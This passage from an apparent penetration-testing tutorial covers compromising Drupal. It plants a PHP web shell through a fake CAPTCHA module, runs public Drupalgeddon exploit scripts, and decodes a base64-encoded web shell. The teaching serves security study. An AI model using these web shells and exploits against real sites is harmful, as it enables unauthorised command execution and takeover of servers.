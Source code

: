 Next, we need to create a .htaccess file to give ourselves access to the folder. This is necessary as Drupal denies direct access to the `/modules`{: .filepath} folder:
```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```

Copy both of these files to the captcha folder and create an archive:
```console
zero@pio$ mv shell.php .htaccess captcha
zero@pio$ tar cvf captcha.tar.gz captcha/
```

With administrative access, click on **Manage** and then **Extend** on the sidebar. Now install our CAPTCHA module. Once the installation succeeds, browse to `/modules/captcha/shell.php`{: .filepath} to execute commands:
```console
zero@pio$ curl -s <TARGET>/modules/captcha/shell.php?cmd=id
```

### Drupalgeddon

Over the years, Drupal core has suffered from a few serious remote code execution vulnerabilities, each dubbed Drupalgeddon. At the time of writing, there are 3 Drupalgeddon vulnerabilities in existence:
- [CVE-2014-3704](https://www.drupal.org/forum/newsletters/security-advisories-for-drupal-core/2014-10-15/sa-core-2014-005-drupal-core-sql)
- [CVE-2018-7600](https://www.drupal.org/sa-core-2018-002)
- [CVE-2018-7602](https://www.cvedetails.com/cve/CVE-2018-7602/)

We can get the script [here](https://www.exploit-db.com/exploits/34992). Here we see that we need to supply the target URL and a username and password for our new admin account. Let's run the script and see if we get a new admin user:
```console
zero@pio$ python2.7 drupalgeddon.py -t http://<TARGET> -u hacker -p pwnd
```

If everything works, we have a new admin account added. There is also the `exploit/multi/http/drupal_drupageddon` Metasploit module.

This [script](https://www.exploit-db.com/exploits/44448) confirm the Vulnerability:
```console
zero@pio$ python3 drupalgeddon2.py
```

This script upload a `hello.txt`{: .filepath}. We can check quickly with cURL and see that the file was indeed uploaded:
```console
zero@pio$ curl -s http://<TARGET>/hello.txt
```

Now we can modified the script to upload a reverse shell:
```console
zero@pio$ echo '<?php system($_GET[cmd]);?>' | base64 
zero@pio$ echo "PD9waHAgc3lzdGVtKCRfR0VUW2ZlOGVkYmFiYzVjNWM5YjdiNzY0NTA0Y2QyMmIxN2FmXSk7Pz4K" | base64 -d | tee shell.php
```
